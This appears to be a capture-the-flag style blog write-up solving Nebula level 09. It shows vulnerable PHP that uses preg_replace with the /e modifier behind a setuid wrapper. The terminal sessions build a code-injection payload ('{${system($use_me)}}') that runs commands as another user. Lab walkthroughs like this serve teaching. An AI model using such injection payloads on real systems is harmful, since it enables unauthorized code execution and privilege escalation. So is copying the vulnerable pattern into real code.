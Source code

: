 ```yaml
---
layout: post
title: 'Exploit Exercises: Nebula Level 09'
date: 2018-07-16 15:49 -0300
categories: [nebula, writeups]
tags: [ nebula, writeups, level, exploit, exercise, tutorial, solution]
---
```


![Image of Nebula Terminal](/uploads/Screenshot%20from%202018-07-16%2000-20-16.png)

There’s a C setuid wrapper for some vulnerable PHP code…
To do this level, log in as the level09 account with the password level09. Files for this level can be found in /home/flag09.

### Source code

(level9.php)

```php
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);

  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

### Solution

Contents of the flag09 user account home folder:

```terminal
level09@nebula:~$ cd /home/flag09/
level09@nebula:/home/flag09$ ls -al
total 13
drwxr-x--- 2 flag09 level09   98 Nov 20  2011 .
drwxr-xr-x 1 root   root      80 Aug 27  2012 ..
-rw-r--r-- 1 flag09 flag09   220 May 18  2011 .bash_logout
-rw-r--r-- 1 flag09 flag09  3353 May 18  2011 .bashrc
-rw-r--r-- 1 flag09 flag09   675 May 18  2011 .profile
-rwsr-x--- 1 flag09 level09 7240 Nov 20  2011 flag09
-rw-r--r-- 1 root   root     491 Nov 20  2011 flag09.php
level09@nebula:/home/flag09$
```

Now let’s take a peek into those files!

flag09:

```terminal
level09@nebula:/home/flag09$ file flag09
flag09: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped
level09@nebula:/home/flag09$ ./flag09
PHP Notice:  Undefined offset: 1 in /home/flag09/flag09.php on line 22
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/flag09/flag09.php on line 13
level09@nebula:/home/flag09$
flag09.php:
level09@nebula:/home/flag09$ cat flag09.php
<?php

function spam($email)
{
	$email = preg_replace("/\./", " dot ", $email);
	$email = preg_replace("/@/", " AT ", $email);

	return $email;
}

function markup($filename, $use_me)
{
	$contents = file_get_contents($filename);

	$contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
	$contents = preg_replace("/\[/", "<", $contents);
	$contents = preg_replace("/\]/", ">", $contents);

	return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
level09@nebula:/home/flag09$
```

Hmmmm,

```php
PHP Notice:  Undefined offset: 1 in /home/flag09/flag09.php on line 22
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/flag09/flag09.php on line 13
```

We have 2 notices and one warning. According to the "C setuid wrapper for some vulnerable PHP code" and to the file_get_contents() PHP function, we must provide a file to our ELF which is C setuid wrapper to our PHP code.

Ok fine but how do we get to the "getflag" command executed as the level09 user???

Well, on the line `"$contents = preg_replace("/(email(.∗)email(.∗))/e", "spam(\"\\2\")", $contents);"` you will observe that there is preg_replace with /e modifier which will lead to Arbitrary Code Execution.

Wonder how the hell I know that? Well here is the most resourceful link on the internet for exploitable PHP functions: https://stackoverflow.com/questions/3115559/exploitable-php-functions Enjoy.

Now let’s inject something. On the line `"$output = markup($argv[1], $argv[2]);"` we can observe that we call the function markup with 2 different arguments.

```php
function markup($filename, $use_me)
{
	$contents = file_get_contents($filename);

	$contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
	$contents = preg_replace("/\[/", "<", $contents);
	$contents = preg_replace("/\]/", ">", $contents);

	return $contents;
}
```

Now by taking a look at the above function called markup, we can observe that the first argument will be out attack vector. Furthermore, $use_me is useless but it must be used!

Let’s begin.

```terminal
level09@nebula:/home/flag09$ echo "[email test@test.test]" > /tmp/test
level09@nebula:/home/flag09$ cat /tmp/test
[email test@test.test]
level09@nebula:/home/flag09$
First excution!
level09@nebula:/home/flag09$ ./flag09 /tmp/test sexy_pussycat
test AT test dot test
⇒ Expected result…​ NOT GOOD!
level09@nebula:/home/flag09$ echo "[email phpinfo()]" > /tmp/test
level09@nebula:/home/flag09$ cat /tmp/test
[email phpinfo()]
level09@nebula:/home/flag09$
Second execution!
level09@nebula:/home/flag09$ ./flag09 /tmp/test sexy_pussycat
phpinfo()
level09@nebula:/home/flag09$
```

⇒ Hmm, we are getting there!

```terminal
level09@nebula:/home/flag09$ nano /tmp/test
level09@nebula:/home/flag09$ cat /tmp/test
[email {${phpinfo()}}]
level09@nebula:/home/flag09$
Third execution!
level09@nebula:/home/flag09$ ./flag09 /tmp/test sexy_pussycat
phpinfo()
PHP Version => 5.3.6-13ubuntu3.2

System => Linux nebula 3.0.0-12-generic #20-Ubuntu SMP Fri Oct 7 14:50:42 UTC 2011 i686
Build Date => Oct 13 2011 23:17:32
Server API => Command Line Interface
Virtual Directory Support => disabled
Configuration File (php.ini) Path => /etc/php5/cli

<sniiiiiiiiiiiiiiiiiiiiiiiiip of large output>

level09@nebula:/home/flag09$
```

⇒ Gentlemen’s we have achieved an Arbitrary Code Execution of an PHP function.

WOW, WOW, wait a second! We have executed only a PHP function using an C setuid wrapper for some vulnerable PHP code. But instead of executing a PHP function we need to execute a linux system command (getflag) as the user level09. Fun time. Check setuid permission.

```terminal
level09@nebula:/home/flag09$ ls -al
total 13
drwxr-x--- 2 flag09 level09   98 Nov 20  2011 .
drwxr-xr-x 1 root   root      80 Aug 27  2012 ..
-rw-r--r-- 1 flag09 flag09   220 May 18  2011 .bash_logout
-rw-r--r-- 1 flag09 flag09  3353 May 18  2011 .bashrc
-rw-r--r-- 1 flag09 flag09   675 May 18  2011 .profile
-rwsr-x--- 1 flag09 level09 7240 Nov 20  2011 flag09
-rw-r--r-- 1 root   root     491 Nov 20  2011 flag09.php
level09@nebula:/home/flag09$
```

Perfect, using setuid on flag09 ELF we can leverage our commands to be executed as level09. But how do we linux system command? Weeeeellll, by using another PHP function (daaaah lol).
Fourth execution!

```terminal
level09@nebula:/home/flag09$ nano /tmp/test
level09@nebula:/home/flag09$ cat /tmp/test
[email {${shell_exec("ls -lart");}}]

level09@nebula:/home/flag09$ ./flag09 /tmp/test sexy_pussycat
PHP Parse error:  syntax error, unexpected T_CONSTANT_ENCAPSED_STRING, expecting T_STRING in /home/flag09/flag09.php(15) : regexp code on line 1
PHP Fatal error:  preg_replace(): Failed evaluating code:
spam("{${shell_exec(\"ls -lart\");}}") in /home/flag09/flag09.php on line 15
level09@nebula:/home/flag09$
```

⇒ FAIL! We can not escape the "\" in order to execute a proper command.
⇒ Small trick for you guys.

```terminal
level09@nebula:/home/flag09$ nano /tmp/test
level09@nebula:/home/flag09$ cat /tmp/test
[email {${system($use_me)}}]
level09@nebula:/home/flag09$ ./flag09 /tmp/test sexy_pussycat
sh: sexy_pussycat: command not found
PHP Notice:  Undefined variable:  in /home/flag09/flag09.php(15) : regexp code on line 1

level09@nebula:/home/flag09$
```

Apparently we do not have a system command called "sexy_pussycat", sad day…​ But for the grand final:

```terminal
level09@nebula:/home/flag09$ ./flag09 /tmp/test getflag
You have successfully executed getflag on a target account
PHP Notice:  Undefined variable: You have successfully executed getflag on a target account in /home/flag09/flag09.php(15) : regexp code on line 1

level09@nebula:/home/flag09$
```

Well done! At this point you have finished 50% of Nebula from Exploit Exercises. Share, subscribe and ask question!
